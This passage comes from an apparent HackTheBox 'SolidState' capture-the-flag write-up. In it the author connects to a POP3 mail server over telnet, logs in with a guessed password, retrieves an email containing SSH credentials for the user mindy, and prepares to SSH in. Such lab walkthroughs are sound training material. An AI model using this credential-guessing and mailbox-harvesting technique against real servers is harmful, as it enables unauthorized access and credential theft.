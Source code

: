 So I perform the same thing with Mindy's mailbox and uncover some login credentials.

```bash
root@kali:~/htb/solidstate# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
> USER mindy
+OK
> PASS mindy
+OK Welcome mindy
> list
+OK 2 1945
1 1109
2 836
.
> retr 2

+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

I then quickly ssh into the box using **mindy:P@55W0rd1!2@**

![htb-solidstate-07](/images/htb/solidstate/htb-solidstate-07.png)
